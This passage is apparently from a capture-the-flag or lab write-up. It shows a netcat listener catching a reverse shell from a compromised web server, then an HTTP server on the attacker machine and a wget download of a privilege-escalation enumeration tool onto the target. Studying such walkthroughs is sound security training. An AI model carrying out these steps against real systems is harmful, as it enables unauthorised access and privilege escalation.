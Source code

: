 I ran a netcat listener on my own machine and received a connection after injecting the reverse shell payload into the website.

```
$ sudo nc -lvnp 4444                                                                                                                                                                            
[sudo] password for meowmycks: 
listening on [any] 4444 ...
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.180] 36644
whoami
www-data
```

## Step 3 - Privilege Escalation Part 1

Having gained access to a shell in the target machine, I upgraded to a TTY shell on the target machine and started an HTTP server on my machine, allowing me to download my scripts to the target machine using ```wget``` requests.

```
$ sudo python3 -m http.server 80                                      
[sudo] password for meowmycks: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
I then downloaded a local copy of Linux Smart Enumeration (LSE) onto the target machine.

LSE allows me to scan the host for common privilege escalation points and some additional known vulnerabilities.

```
www-data@ubuntu:/var/www/html$ cd /tmp
cd /tmp
www-data@ubuntu:/tmp$ ls
ls
VMwareDnD
bdhqhwb
systemd-private-89049bd2d2a84d79825857e60e2a157c-systemd-timesyncd.service-qV5wjf
tmux-1000
vmware-root
www-data@ubuntu:/tmp$ wget http://192.168.159.128/lse.tar
wget http://192.168.159.128/lse.tar
--2022-10-22 20:09:21--  http://192.168.159.128/lse.tar
Connecting to 192.168.159.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24565760 (23M) [application/x-tar]
Saving to: 'lse.tar'

lse.tar             100%[===================>]  23.43M  --.-KB/s    in 0.1s    

2022-10-22 20:09:21 (207 MB/s) - 'lse.tar' saved [24565760/24565760]

www-data@ubuntu:/tmp$
```

